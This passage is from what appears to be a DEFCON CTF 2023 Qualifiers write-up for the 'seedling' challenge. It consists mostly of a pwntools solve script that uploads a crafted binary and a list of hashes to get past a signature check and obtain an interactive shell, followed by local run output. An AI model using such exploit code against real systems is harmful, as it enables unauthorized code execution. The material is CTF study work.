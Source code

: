```python
condition 1 $rdx > 0xf
continue
"""

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    io.sendlineafter(b': ', b'ticket{REDACTED}')
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

io = start(['./src/key.txt'])
binary = open('./exploit/shell', 'rb').read()
hashs = open('./exploit/sus.txt', 'rb').read().strip().splitlines()
io.sendlineafter(b'\n', str(len(binary)).encode())
io.sendafter(b'\n', binary)
io.recvline()
io.sendline(str(len(hashs)).encode())
for l in hashs:
    io.sendline(l)
io.recvuntil(b'Successfully verified binary!\n')

# io.sendline(b'cat /challenge/flag')
io.interactive()
```

Server had been down so here is the local output:

```!
[wsl]code/2023/DEFCON/DEFCON_CTF_2023_Qualifiers/seedling [🐍 v3.10.6]
:) python solve.py LOCAL
[*] '/mnt/d/code/2023/DEFCON/DEFCON_CTF_2023_Qualifiers/seedling/src/verify'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/mnt/d/code/2023/DEFCON/DEFCON_CTF_2023_Qualifiers/seedling/src/verify': pid 26234
[*] Switching to interactive mode
Hello hackers
$ ls
exploit  hlextend.py  sign.py  solve.py  src  write.py
$
```
